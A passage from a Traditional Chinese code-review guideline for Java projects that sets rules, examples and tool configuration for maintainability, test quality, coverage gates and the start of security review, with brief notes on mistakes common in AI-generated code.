<!-- ✅ CR-MNT-002：看不懂名稱時要求改名，而不是要求加註解 -->
**suggestion (non-blocking):** 我讀到 `boolean flag = checkWindow(order)` 時無法判斷 `true` 代表什麼。
改成 `boolean withinSelfServiceWindow = CancellationPolicy.isWithinSelfServiceWindow(...)`
就不需要註解說明了。
```

#### 🔍 9.1 審查與驗證

- **自動檢查：** Checkstyle 的命名規則（以附錄 F.3 的負向測試確認 `order_util`、`max` 會被偵測）。
- **人工審查問題：**
  1. 不看實作，只看名稱，能猜到這個方法做什麼嗎？
  2. 同一個概念在程式庫中是否用同一個詞？（例如不要混用 `cancel`／`void`／`revoke`）
- **AI 常見錯誤：** AI 產生的名稱通常符合慣例，但常過於籠統（`processData`、`handleRequest`、`Manager`、`Helper`、`Util`），或和專案既有用詞不一致。

### 9.2 複雜度

複雜的程式碼難以理解、難以測試，也最容易藏錯誤。認知複雜度（cognitive complexity）衡量「人類理解這段程式碼的困難程度」：每一層巢狀、每一個 `break`／`continue`、每一個布林運算子的切換都會增加分數。SonarQube 規則 `java:S3776` 與 PMD 的 `CognitiveComplexity` 預設門檻都是 15。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-MNT-003` | 應該 | 方法的認知複雜度應不超過 15、巢狀不超過 3 層；超過時應以提早返回（guard clause）、抽出方法或多型降低複雜度 | 🤖 PMD `CognitiveComplexity`；🤖 SonarQube `java:S3776`；🤖 Checkstyle `NestedIfDepth` |
| `CR-MNT-004` | 應該 | 方法應只做一件事、維持在同一個抽象層次；超過 40 行的方法審查時應特別確認是否能拆分 | 🤖 Checkstyle `MethodLength`；👁 程式碼審查 |

```java
// ✅ CR-MNT-003：以提早返回取代巢狀判斷，每個條件獨立且易讀
package com.example.cr.order.service;

import java.math.BigDecimal;

public final class RefundCalculator {

    private static final BigDecimal NO_REFUND = BigDecimal.ZERO;

    private RefundCalculator() {
    }

    /** 計算退款金額：未付款不退款；運費只有在全額取消時才退。 */
    public static BigDecimal refundAmount(boolean paid, boolean fullCancel, BigDecimal itemsTotal, BigDecimal shippingFee) {
        if (!paid) {
            return NO_REFUND;
        }
        if (!fullCancel) {
            return itemsTotal;
        }
        return itemsTotal.add(shippingFee);
    }
}
```

```java
// ❌ CR-MNT-003：同樣的邏輯以巢狀判斷撰寫，閱讀時必須同時記住所有條件
// 注意：這個方法的認知複雜度是 9、巢狀 3 層，沒有超過工具門檻，工具不會報告；可讀性仍要靠人判斷
public static BigDecimal refundAmount(boolean paid, boolean fullCancel, BigDecimal itemsTotal, BigDecimal shippingFee) {
    BigDecimal result;
    if (paid) {
        if (fullCancel) {
            if (shippingFee != null) {
                result = itemsTotal.add(shippingFee);
            } else {
                result = itemsTotal;
            }
        } else {
            result = itemsTotal;
        }
    } else {
        result = BigDecimal.ZERO;
    }
    return result;
}
```

（片段：只截取方法。）

```xml
<!-- ✅ CR-MNT-003、CR-MNT-004：Checkstyle 的巢狀與方法長度門檻（片段：只截取兩個 module，完整設定見附錄 C.6） -->
<module name="NestedIfDepth">
  <property name="max" value="2"/>
</module>
<module name="MethodLength">
  <property name="max" value="60"/>
  <property name="countEmpty" value="false"/>
</module>
```

（片段：需放在 `TreeWalker` 之下。工具門檻設為 60 行作為硬性上限；40 至 60 行之間由審查者判斷是否拆分。）

#### 🔍 9.2 審查與驗證

- **自動檢查：** PMD `CognitiveComplexity`（預設門檻 15）、Checkstyle `NestedIfDepth`（附錄 C.6 設定為 2，即最多 3 層）；SonarQube 品質閘門可設定「新程式碼不得有新的 Code Smell」。
- **人工審查問題：**
  1. 我需要在紙上畫流程圖才看得懂這個方法嗎？
  2. 這個方法的名稱能完整描述它做的所有事嗎？如果需要用「和」連接，代表它做了不只一件事。
- **AI 常見錯誤：** AI 為了涵蓋所有情況，常產生很長的 `if-else` 鏈與深層巢狀；要求 AI「降低複雜度」時，它有時只是把巢狀拆成多個私有方法，總複雜度沒有降低，只是分散了。

### 9.3 重複程式碼

重複的程式碼讓修改變得危險：修正了一處，另一處的相同錯誤還在。但並非所有相似的程式碼都該合併：兩段程式碼「現在長得一樣」，但因為不同理由而改變時，強行抽象反而會造成耦合。判斷標準是：**它們是否因為同一個理由而改變？**

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-MNT-005` | 應該 | 新增的程式碼不應與既有程式碼有大段重複（連續 100 個以上 token 相同）；因為同一業務規則而重複的程式碼必須抽出共用 | 🤖 PMD CPD（`minimumTokens` 100）；🤖 SonarQube 重複率閘門 |

```xml
<!-- ✅ CR-MNT-005：pom.xml 中的 PMD 設定，CPD 在 verify 階段檢查重複程式碼（片段：只截取 plugin） -->
<plugin>
  <groupId>org.apache.maven.plugins</groupId>
  <artifactId>maven-pmd-plugin</artifactId>
  <version>3.28.0</version>
  <configuration>
    <minimumTokens>100</minimumTokens>
    <printFailingErrors>true</printFailingErrors>
    <rulesets>
      <ruleset>config/pmd/ruleset.xml</ruleset>
    </rulesets>
  </configuration>
  <executions>
    <execution>
      <goals>
        <goal>check</goal>
        <goal>cpd-check</goal>
      </goals>
    </execution>
  </executions>
</plugin>
```

（片段：只截取 `<plugin>`。）

#### 🔍 9.3 審查與驗證

- **自動檢查：** `./mvnw pmd:cpd-check`；SonarQube 的「新程式碼重複率」閘門（建議 ≤ 3%）。
- **人工審查問題：**
  1. 這段新程式碼和哪裡的程式碼很像？它們會因為同一個理由而修改嗎？
  2. 抽出的共用方法，參數是否越來越多（代表它其實在處理不同的情況）？
- **AI 常見錯誤：** AI 不會搜尋整個程式庫找相似程式碼，常重新實作專案中已有的功能（7.3）；被要求修正一處錯誤時，也不會主動修正其他相同的地方。

### 9.4 註解與文件

好的註解說明**為什麼**（業務規則、限制、刻意的選擇），而不是重複程式碼已經說明的**做什麼**。被註解掉的程式碼應該刪除：版本控制已經保存了歷史。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-MNT-006` | 應該 | 註解應說明為什麼（業務規則、外部限制、非直覺的選擇），而不是逐行翻譯程式碼；公開 API（`public` 類別與方法）應有 Javadoc 說明用途、參數限制與例外 | 🤖 Checkstyle `MissingJavadocMethod`（限 `public`）；👁 程式碼審查 |
| `CR-MNT-007` | 必須 | 不得提交被註解掉的程式碼；`TODO`／`FIXME` 必須附上議題編號（例如 `TODO(#975)`） | 🤖 Checkstyle `TodoComment`（以正規表示式要求議題編號）；🤖 SonarQube `java:S125` |

```java
// ✅ CR-MNT-006：註解說明「為什麼」（片段：常數與其註解）
// 金流商規定同一筆交易 30 分鐘內不可重複退款，否則會被判定為異常交易而凍結商店帳號。
// 因此退款失敗後的重試間隔至少 30 分鐘，而不是一般的指數退避。
private static final Duration REFUND_RETRY_INTERVAL = Duration.ofMinutes(30);
```

（片段：只截取常數宣告。）

```java
// ❌ CR-MNT-006、CR-MNT-007：註解重複程式碼、留下被註解掉的程式碼與沒有議題編號的 TODO
// 將 i 加 1
i++;
// 呼叫 cancel 方法
order.cancel(reason, now);
// order.setStatus(OrderStatus.CANCELLED);
// orderRepository.save(order);
// TODO 之後要處理退款
```

（片段：獨立的程式碼行。）

```xml
<!-- ✅ CR-MNT-007：Checkstyle 只允許附有議題編號的 TODO／FIXME（片段：只截取 module） -->
<module name="TodoComment">
  <property name="format" value="(TODO|FIXME)(?!\(#\d+\))"/>
</module>
```

（片段：只截取 `<module>`，需放在 `TreeWalker` 之下。）

#### 🔍 9.4 審查與驗證

- **自動檢查：** Checkstyle `TodoComment`（上面的設定會把沒有 `(#數字)` 的 TODO 視為違規）；SonarQube `java:S125`（被註解掉的程式碼）。
- **人工審查問題：**
  1. 刪掉這則註解，程式碼是否一樣清楚？若是，註解可以刪除。
  2. 這段程式碼有沒有「看起來很奇怪但是刻意這樣寫」的地方？有沒有註解說明原因？
- **AI 常見錯誤：** AI 產生的程式碼常有大量逐行註解（「// 取得訂單」、「// 檢查是否為 null」），或在 Javadoc 中重複方法名稱；AI 也常留下 `// TODO: implement` 或 `// ... existing code ...` 這類佔位內容。

### 9.5 技術債與範圍控制

審查時常會發現「既有程式碼的問題」或「可以順便改善的地方」。審查者要區分：**這個 PR 引入的問題**必須在本 PR 修正；**既有的問題**應另開議題，不要讓 PR 範圍無限擴大（Google 的建議是：作者可以在後續 PR 清理，但「之後再清理」通常不會發生，所以要有議題追蹤）。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-MNT-008` | 應該 | 審查者應區分「本 PR 引入的問題」與「既有問題」；既有問題不應阻擋合併，而應建立議題（CR-CMT-005）。本 PR 引入的技術債，若同意延後處理，必須有議題與負責人 | 👁 審查紀錄 |

```markdown
<!-- ✅ CR-MNT-008：區分本 PR 引入的問題與既有問題 -->
**issue (blocking):** 本 PR 新增的 `cancelWithRefund` 有 6 層巢狀，認知複雜度 23，請拆分。

**note:** `OrderLegacyService` 原本就有相同的問題（不是本 PR 引入的），已開 #981 追蹤，不阻擋本 PR。
```

#### 🔍 9.5 審查與驗證

- **自動檢查：** SonarQube 的「新程式碼」（New Code）定義讓品質閘門只檢查本次變更，避免既有問題阻擋所有 PR。
- **人工審查問題：**
  1. 這個問題是本 PR 引入的，還是原本就存在？
  2. 我要求作者「順便」修改的東西，是否讓 PR 偏離了原本的目的？
- **AI 常見錯誤：** AI 審查工具會對既有程式碼留下大量意見，讓作者以為必須全部修正；Claude Code Code Review 以 🟣 Pre-existing 標示既有問題，其他工具則不一定區分。

## 10. 審查重點：測試

測試是作者向審查者證明「程式碼是對的」的方式。審查者不可能在腦中執行每一個分支；好的測試讓審查者只需確認兩件事：**測試涵蓋了該涵蓋的情境**，以及**程式碼壞掉時測試真的會失敗**。完整的測試策略、門檻與工具見 [測試與品質保證指引]()；本章只規範審查測試的方法。

### 10.1 測試是否存在、是否在正確的層級

| 變更類型 | 必要的測試 | 層級 |
| --- | --- | --- |
| 新增或修改業務規則 | 每個規則與邊界一個案例 | 單元測試（領域物件、Service） |
| 新增或修改 API | 成功、驗證失敗（400）、未授權（401／403）、找不到（404）、衝突（409） | `@WebMvcTest` 或 API 測試 |
| 新增或修改查詢 | 以真實資料庫驗證查詢結果與效能 | 整合測試（Testcontainers） |
| 錯誤修正 | 重現錯誤的回歸測試：修正前失敗、修正後通過 | 與錯誤所在的層級相同 |
| 純重構 | 既有測試全部通過，且不修改測試的預期結果 | — |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-TST-001` | 必須 | 改變行為的變更必須附上對應的自動化測試，涵蓋正常路徑、邊界與錯誤情境；無法自動化測試時，必須在 PR 描述說明原因與手動驗證步驟 | 🤖 新程式碼覆蓋率閘門（10.3）；👁 審查者對照變更與測試 |
| `CR-TST-002` | 必須 | 錯誤修正必須附上回歸測試；審查者應確認這個測試在修正前會失敗（可在本機還原修正後執行，或請作者在描述中附上失敗紀錄） | 🧪 回歸測試；👁 PR 描述 |
| `CR-TST-003` | 必須 | 「純重構」的 PR 不得修改既有測試的預期結果；需要修改預期結果，代表行為改變了，不是純重構 | 👁 審查測試的 diff |

```text
✅ CR-TST-002：在 PR 描述附上回歸測試修正前的失敗紀錄
## 如何驗證
新增 OrderTest#cancellingTwiceIsRejected。修正前執行結果：

[ERROR] OrderTest.cancellingTwiceIsRejected:58
Expecting code to raise a throwable.

修正後全部通過（CI #4821）。
```

```text
❌ CR-TST-003：標為重構，卻修改了測試的預期結果
PR #1010 refactor: 簡化 RefundCalculator
  M  RefundCalculator.java
  M  RefundCalculatorTest.java
-        assertThat(refund).isEqualByComparingTo("1080.00");
+        assertThat(refund).isEqualByComparingTo("1000.00");
→ 預期結果改變代表退款金額改變了（運費不再退還），這是行為變更，必須說明並由需求方確認。
```

#### 🔍 10.1 審查與驗證

- **自動檢查：** 新程式碼覆蓋率閘門（10.3）；`git diff --stat` 中有 `src/main` 的變更卻沒有任何 `src/test` 的變更時，附錄 C.4 的工作流程會留下提醒。
- **人工審查問題：**
  1. 這個 PR 改了哪些行為？每一個都有測試嗎？
  2. 錯誤修正的測試，在修正前真的會失敗嗎？
  3. 測試的 diff 中，有沒有被修改的 `assertThat`、被刪除的測試或新增的 `@Disabled`？
- **AI 常見錯誤：** AI 被要求「修正測試失敗」時，常直接修改測試的預期值讓它通過，而不是修正程式碼。任何修改既有斷言的變更都要特別檢查。

### 10.2 測試的品質：程式壞掉時會失敗嗎

覆蓋率只能說明「哪些程式碼被執行過」，不能說明「執行結果有沒有被檢查」。一個沒有任何斷言的測試可以達到 100% 覆蓋率。審查測試時最有效的問題是：**如果我把這一行程式碼改錯，哪個測試會失敗？**變異測試（mutation testing，例如 PIT）就是自動化地問這個問題：它故意修改程式碼（把 `<` 改成 `<=`、刪除方法呼叫），看測試是否失敗。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-TST-004` | 必須 | 每個測試都必須有能區分正確與錯誤行為的斷言；不得只呼叫方法而不檢查結果，也不得只驗證 mock 被呼叫而不檢查狀態或回傳值 | 🤖 PMD `UnitTestShouldIncludeAssert`；🤖 PIT 變異分數；👁 程式碼審查 |
| `CR-TST-005` | 應該 | 核心業務模組（金額、授權、狀態轉換）應在 CI 執行變異測試，新程式碼的變異分數應達到 70% 以上；審查者應檢查存活的變異（survived mutants） | 🤖 PIT `mutationThreshold`；👁 審查 PIT 報告 |
| `CR-TST-006` | 應該 | 測試名稱應描述情境與預期結果；同一規則的多個輸入應使用參數化測試，而不是複製貼上 | 👁 程式碼審查 |

```java
// ✅ CR-TST-004、CR-TST-006：參數化測試涵蓋所有狀態；每個案例都有明確的斷言
package com.example.cr.order.domain;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatIllegalArgumentException;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import java.math.BigDecimal;
import java.time.Instant;
import org.junit.jupiter.api.DisplayName;
import org.junit.jupiter.api.Test;
import org.junit.jupiter.params.ParameterizedTest;
import org.junit.jupiter.params.provider.NullAndEmptySource;
import org.junit.jupiter.params.provider.ValueSource;
import org.springframework.test.util.ReflectionTestUtils;

class OrderTest {

    private static final Instant NOW = Instant.parse("2026-10-08T02:00:00Z");

    private static Order orderIn(OrderStatus status) {
        Order order = new Order(1001L, new BigDecimal("1080.00"));
        ReflectionTestUtils.setField(order, "status", status);
        return order;
    }

    @ParameterizedTest(name = "{0} 狀態的訂單可以取消")
    @ValueSource(strings = {"CREATED", "PAID"})
    void cancellableStatuses(OrderStatus status) {
        Order order = orderIn(status);

        order.cancel("客戶重複下單", NOW);

        assertThat(order.getStatus()).isEqualTo(OrderStatus.CANCELLED);
        assertThat(order.getCancelReason()).isEqualTo("客戶重複下單");
        assertThat(order.getCancelledAt()).isEqualTo(NOW);
    }

    @Test
    @DisplayName("已出貨的訂單不能取消，狀態維持不變")
    void shippedOrderCannotBeCancelled() {
        Order order = orderIn(OrderStatus.SHIPPED);

        assertThatThrownBy(() -> order.cancel("太慢了", NOW))
                .isInstanceOf(OrderStateException.class)
                .hasMessageContaining("退貨");
        assertThat(order.getStatus()).isEqualTo(OrderStatus.SHIPPED);
        assertThat(order.getCancelledAt()).isNull();
    }

    @Test
    @DisplayName("已取消的訂單不能再取消一次，原本的取消時間不被覆寫")
    void cancellingTwiceIsRejected() {
        Order order = orderIn(OrderStatus.PAID);
        order.cancel("第一次", NOW);

        assertThatThrownBy(() -> order.cancel("第二次", NOW.plusSeconds(60)))
                .isInstanceOf(OrderStateException.class);
        assertThat(order.getCancelReason()).isEqualTo("第一次");
        assertThat(order.getCancelledAt()).isEqualTo(NOW);
    }

    @ParameterizedTest(name = "金額 {0} 不合法")
    @ValueSource(strings = {"0", "0.00", "-0.01"})
    void amountMustBePositive(String amount) {
        assertThatIllegalArgumentException().isThrownBy(() -> new Order(1001L, new BigDecimal(amount)));
    }

    @ParameterizedTest(name = "原因「{0}」不合法")
    @NullAndEmptySource
    @ValueSource(strings = {"   "})
    void blankReasonIsRejected(String reason) {
        Order order = orderIn(OrderStatus.PAID);

        assertThatIllegalArgumentException().isThrownBy(() -> order.cancel(reason, NOW));
        assertThat(order.getStatus()).isEqualTo(OrderStatus.PAID);
    }

    @Test
    @DisplayName("原因長度的邊界：200 字可以，201 字不行")
    void reasonLengthBoundary() {
        Order ok = orderIn(OrderStatus.PAID);
        ok.cancel("退".repeat(Order.MAX_REASON_LENGTH), NOW);
        assertThat(ok.getStatus()).isEqualTo(OrderStatus.CANCELLED);

        Order tooLong = orderIn(OrderStatus.PAID);
        assertThatIllegalArgumentException()
                .isThrownBy(() -> tooLong.cancel("退".repeat(Order.MAX_REASON_LENGTH + 1), NOW));
    }
}
```

```java
// ✅ CR-TST-004：Service 測試同時驗證回傳狀態與發布的事件，並涵蓋「他人的訂單」
package com.example.cr.order.service;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;
import static org.mockito.ArgumentMatchers.any;
import static org.mockito.Mockito.never;
import static org.mockito.Mockito.verify;
import static org.mockito.Mockito.when;

import com.example.cr.order.domain.Order;
import com.example.cr.order.domain.OrderCancelledEvent;
import com.example.cr.order.domain.OrderNotFoundException;
import com.example.cr.order.domain.OrderStatus;
import com.example.cr.order.persistence.OrderRepository;
import java.math.BigDecimal;
import java.time.Clock;
import java.time.Instant;
import java.time.ZoneOffset;
import java.util.Optional;
import org.junit.jupiter.api.Test;
import org.junit.jupiter.api.extension.ExtendWith;
import org.mockito.Mock;
import org.mockito.junit.jupiter.MockitoExtension;
import org.springframework.context.ApplicationEventPublisher;

@ExtendWith(MockitoExtension.class)
class OrderCancelServiceTest {

    private static final Instant NOW = Instant.parse("2026-10-08T02:00:00Z");

    @Mock
    private OrderRepository orders;

    @Mock
    private ApplicationEventPublisher events;

    private OrderCancelService service() {
        return new OrderCancelService(orders, events, Clock.fixed(NOW, ZoneOffset.UTC));
    }

    @Test
    void cancelsOwnOrderAndPublishesEvent() {
        Order order = new Order(1001L, new BigDecimal("1080.00"));
        when(orders.findByIdAndCustomerId(42L, 1001L)).thenReturn(Optional.of(order));

        Order result = service().cancel(42L, 1001L, "客戶重複下單");

        assertThat(result.getStatus()).isEqualTo(OrderStatus.CANCELLED);
        assertThat(result.getCancelledAt()).isEqualTo(NOW);
        verify(events).publishEvent(new OrderCancelledEvent(null, new BigDecimal("1080.00")));
    }

    @Test
    void otherCustomersOrderIsTreatedAsNotFound() {
        when(orders.findByIdAndCustomerId(42L, 2002L)).thenReturn(Optional.empty());

        assertThatThrownBy(() -> service().cancel(42L, 2002L, "惡意取消"))
                .isInstanceOf(OrderNotFoundException.class);
        verify(events, never()).publishEvent(any(Object.class));
    }
}
```

```java
// ❌ CR-TST-004：沒有任何斷言的測試；覆蓋率 100%，但 cancel() 改成什麼都不做也會通過
@Test
void testCancel() {
    Order order = new Order(1001L, new BigDecimal("1080.00"));
    order.cancel("test", Instant.now());
}

// ❌ CR-TST-004：只驗證 mock 被呼叫，沒有檢查訂單狀態；cancel() 內容被刪除時仍然通過
@Test
void testCancelService() {
    when(orders.findByIdAndCustomerId(42L, 1001L)).thenReturn(Optional.of(order));
    service.cancel(42L, 1001L, "test");
    verify(orders).findByIdAndCustomerId(42L, 1001L);
}
```

（片段：只截取測試方法。）

```xml
<!-- ✅ CR-TST-005：PIT 變異測試只針對核心類別、排除單純的 getter，分數低於 70% 時建置失敗（片段：只截取 plugin） -->
<plugin>
  <groupId>org.pitest</groupId>
  <artifactId>pitest-maven</artifactId>
  <version>1.30.0</version>
  <dependencies>
    <dependency>
      <groupId>org.pitest</groupId>
      <artifactId>pitest-junit5-plugin</artifactId>
      <version>1.2.3</version>
    </dependency>
  </dependencies>
  <configuration>
    <targetClasses>
      <param>com.example.cr.order.domain.Order</param>
    </targetClasses>
    <targetTests>
      <param>com.example.cr.order.domain.*</param>
    </targetTests>
    <excludedMethods>
      <param>get*</param>
    </excludedMethods>
    <mutationThreshold>70</mutationThreshold>
  </configuration>
</plugin>
```

（片段：只截取 `<plugin>`。）

#### 🔍 10.2 審查與驗證

- **自動檢查：** PMD `UnitTestShouldIncludeAssert`（PMD 7 的名稱，舊版為 `JUnitTestsShouldIncludeAssert`；MockMvc 的 `andExpect` 需以 `extraAssertMethodNames` 屬性加入，見附錄 C.6）；`./mvnw org.pitest:pitest-maven:mutationCoverage` 產生變異報告。
- **實例：** 本章 `OrderTest` 第一次執行 PIT 時，`Order` 建構子中 `amount.signum() <= 0` 的「邊界變異」（被改成 `< 0`）存活了：所有測試都用 1080 元建立訂單，沒有人測過金額剛好是 0 的情況。覆蓋率顯示這一行「已覆蓋」，只有變異測試能發現這個缺口。補上 `amountMustBePositive` 後，`Order` 的變異全部被殺死（附錄 F.3）。
- **人工審查問題：**
  1. 隨便挑一行實作，把它改錯（例如把 `>` 改成 `>=`），哪個測試會失敗？
  2. 測試的斷言檢查的是「結果」，還是只是「某個方法被呼叫了」？
  3. 測試資料是否觸及邊界（200 與 201）？
- **AI 常見錯誤：** AI 產生的測試最常見的問題是：斷言只檢查 `isNotNull()`；用 mock 回傳值再斷言同一個值（測試的是 mock 而不是程式碼）；複製實作的邏輯來計算預期值（實作錯了，預期值也跟著錯）。審查 AI 寫的測試時，要確認預期值是由需求推導而來，而不是由實作推導。

### 10.3 覆蓋率作為門檻，而不是目標

覆蓋率適合作為「最低門檻」，不適合作為「目標」：要求 100% 覆蓋率會產生大量沒有價值的測試；但新程式碼覆蓋率只有 30%，幾乎可以確定有行為沒有被測試。建議以**新程式碼**（本次變更）的覆蓋率作為閘門，避免既有程式碼的低覆蓋率阻擋所有變更。

| 平台 | 新程式碼覆蓋率閘門 |
| --- | --- |
| SonarQube | 品質閘門條件「Coverage on New Code」（Sonar way 預設 80%） |
| GitHub | Rulesets「Restrict code coverage」（公開預覽，需 GitHub Code Quality 與上傳覆蓋率） |
| GitLab | 覆蓋率檢查核准規則（Coverage-Check approval rule，覆蓋率下降時需要指定人員核准） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-TST-007` | 應該 | 應以新程式碼覆蓋率作為合併閘門（建議行覆蓋率 80%），並在 CI 上傳覆蓋率報告；審查者應查看未覆蓋的行是否為重要邏輯，而不只看百分比 | 🤖 SonarQube 品質閘門／GitHub Restrict code coverage／GitLab Coverage-Check |

```yaml
# ✅ CR-TST-007：GitLab CI 以 JaCoCo 報告產生 MR 中的逐行覆蓋率標示與覆蓋率數字（片段：只截取 job）
unit-test:
  stage: test
  image: eclipse-temurin:25-jdk
  script:
    - ./mvnw -B verify
  coverage: '/Total.*?([0-9]{1,3})%/'
  artifacts:
    when: always
    reports:
      junit: target/surefire-reports/TEST-*.xml
      coverage_report:
        coverage_format: jacoco
        path: target/site/jacoco/jacoco.xml
```

（片段：`coverage` 的正規表示式需搭配會輸出總覆蓋率的步驟，例如在 `script` 中印出 JaCoCo CSV 的合計。）

```yaml
# ❌ CR-TST-007：v2.0 的寫法，reports 底下沒有 coverage 這個鍵，覆蓋率不會出現在 MR 中
unit-tests:
  stage: test
  script:
    - mvn clean test
    - mvn jacoco:report
  artifacts:
    reports:
      junit:
        - target/surefire-reports/TEST-*.xml
      coverage: target/site/jacoco/jacoco.xml
```

（片段：只截取 job。）

#### 🔍 10.3 審查與驗證

- **自動檢查：** GitLab CI 設定以 GitLab 的 CI JSON Schema 驗證（附錄 F.3）；SonarQube 品質閘門結果作為必要檢查。
- **人工審查問題：**
  1. 未被覆蓋的行是錯誤處理、邊界條件，還是無關緊要的 getter？
  2. 覆蓋率很高，但測試有斷言嗎？（10.2）
- **AI 常見錯誤：** AI 產生的 CI 設定常混用新舊語法（例如 GitLab 的 `only:`／`except:` 與 `rules:` 混用、`artifacts:reports:coverage` 這種不存在的鍵）。CI 設定一律以 schema 或 lint 工具驗證。

### 10.4 測試的穩定性與可維護性

不穩定的測試（flaky test）比沒有測試更糟：團隊會習慣「重跑一次就好」，真正的失敗也被忽略。審查時要特別注意會讓測試不穩定的寫法。

| 不穩定的來源 | 審查時看什麼 | 正確做法 |
| --- | --- | --- |
| 時間 | `Instant.now()`、`LocalDate.now()` | 注入 `Clock.fixed`（CR-COR-015） |
| 等待 | `Thread.sleep` | Awaitility 等待條件成立 |
| 順序 | 測試依賴其他測試先執行；`HashMap` 的迭代順序 | 每個測試自行準備資料；斷言不依賴順序 |
| 共用狀態 | 靜態變數、共用的資料庫資料 | 每個測試隔離（交易回滾、獨立資料） |
| 外部服務 | 呼叫真實的第三方 API | WireMock、Testcontainers |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-TST-008` | 必須 | 測試不得依賴真實時間、`Thread.sleep`、執行順序或外部網路服務；不得以 `@Disabled` 停用失敗的測試，除非附上議題編號與預計修復日期 | 🤖 ArchUnit／PMD 自訂規則禁止測試呼叫 `Thread.sleep`；👁 審查 `@Disabled` |

```java
// ❌ CR-TST-008：依賴真實時間與 sleep，並以 @Disabled 停用而沒有任何說明
@Disabled
@Test
void cancelWithinWindow() throws InterruptedException {
    Instant paidAt = Instant.now();
    Thread.sleep(1000);
    assertThat(CancellationPolicy.isWithinSelfServiceWindow(paidAt, Instant.now())).isTrue();
}
```

（片段：只截取測試方法。應寫成 `@Disabled("#982 待修正，預計 2026-10-20")`，並以固定時間計算。）

#### 🔍 10.4 審查與驗證

- **自動檢查：** `git grep -n "@Disabled" -- src/test` 列出所有停用的測試，確認都有議題編號；CI 記錄重跑才通過的測試（GitHub Actions 的重新執行紀錄、GitLab 的 retry），定期檢視。
- **人工審查問題：**
  1. 這個測試在不同時區、不同日期、平行執行時都會通過嗎？
  2. 新增的 `@Disabled` 有理由與議題嗎？
- **AI 常見錯誤：** AI 遇到測試失敗時，常建議加上 `@Disabled`、增加 `Thread.sleep` 的時間或把斷言放寬，這些都是隱藏問題而不是解決問題。

## 11. 審查重點：安全

安全弱點是程式碼審查最重要、也最容易漏掉的問題。工具（SAST、SCA、秘密掃描）能找到已知的模式，但**授權邏輯錯誤**（使用者能存取別人的資料）、**業務邏輯漏洞**（可以用負數金額退款）這類問題，工具幾乎找不到，只能靠審查。完整的安全寫作規則（`SCG-*`）見 [安全程式碼指引]()；本章整理審查時最常需要確認的重點，讓審查者不必翻閱整份指引也能完成第一輪安全審查。

### 11.1 安全審查的範圍與方法

NIST SSDF PW.7 要求「依組織的安全寫作標準進行程式碼審查或分析」。實務上分兩層：**每個 PR** 都由一般審查者依本章的問題做基本檢查；**安全敏感的 PR**（3.4 的高風險）再由資安擁護者依 [安全程式碼指引]() 第 20 章的檢查清單審查。

| 安全敏感的變更 | 例子 | 需要的審查 |
| --- | --- | --- |
| 身分驗證與工作階段 | 登入、權杖、密碼重設、MFA | 資安擁護者 |
| 授權 | 權限設定、角色、資料範圍過濾 | 資安擁護者 |
| 密碼學與秘密 | 加密、雜湊、金鑰、憑證 | 資安擁護者 |
| 個資與敏感資料 | 新增個資欄位、匯出、日誌 | 資安擁護者＋資料保護窗口 |
| 外部輸入的新入口 | 新 API、檔案上傳、Webhook | 一般審查＋本章檢查 |
| 安全相關設定 | CORS、CSP、TLS、Security 設定類別 | 資安擁護者 |
| CI／CD 與相依套件 | 工作流程權限、新的相依套件 | 平台團隊（第 15、18 章） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SEC-001` | 必須 | 修改上表安全敏感範圍的 PR，必須由資安擁護者（或指定的安全審查者）依安全程式碼指引第 20 章的檢查清單審查，並在核准意見中記錄已確認的項目；CI 的 SAST、SCA 與秘密掃描必須通過 | 🤖 CODEOWNERS 指定安全路徑（CR-ROLE-007）；🤖 必要狀態檢查；👁 核准意見 |

```markdown
<!-- ✅ CR-SEC-001：資安擁護者的核准意見記錄已確認的項目 -->
**Approve（安全審查）**

依安全程式碼指引第 20.2 節確認：
- [x] 新端點 `POST /api/orders/{id}/cancel` 需要 `SCOPE_orders:write`，未列出的路徑以 `denyAll()` 收尾（SCG-GEN-010）
- [x] 查詢條件包含 `customer_id`，他人的訂單回 404（SCG-ACL-002）；`OrderCancelServiceTest#otherCustomersOrderIsTreatedAsNotFound` 覆蓋
- [x] 取消原因有長度上限 200，寫入資料庫使用參數綁定（SCG-SQL-001）
- [x] 日誌只記錄訂單編號，沒有記錄取消原因全文（可能含個資）（SCG-LOG-002）
- [x] CodeQL、Dependency Review、Gitleaks 全部通過
```

#### 🔍 11.1 審查與驗證

- **自動檢查：** GitHub code scanning（CodeQL）、secret scanning 與 Dependency Review 作為必要檢查；GitLab 的 SAST、Secret Detection、Dependency Scanning 範本，Ultimate 版可設定合併請求核准政策（merge request approval policies）在發現弱點時要求資安核准。
- **人工審查問題：**
  1. 這個 PR 是否觸及上表的任何一類？作者標記的風險等級是否正確？
  2. 安全審查者的核准意見有沒有列出具體確認的項目？
- **AI 常見錯誤：** AI 審查工具擅長找出 SQL 串接、寫死的密碼這類模式，但對「這個使用者是否應該看到這筆資料」幾乎無法判斷。授權邏輯必須由了解業務規則的人審查。

### 11.2 輸入驗證與輸出編碼

所有來自信任邊界外的資料都是不可信的：HTTP 參數、標頭、請求本文、上傳的檔案、訊息佇列的訊息、外部 API 的回應，甚至 AI 模型的輸出。輸入驗證**拒絕不合法的資料**（8.2），輸出編碼**讓合法的資料在輸出時不會被當成程式碼**；兩者缺一不可，也不能互相取代。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
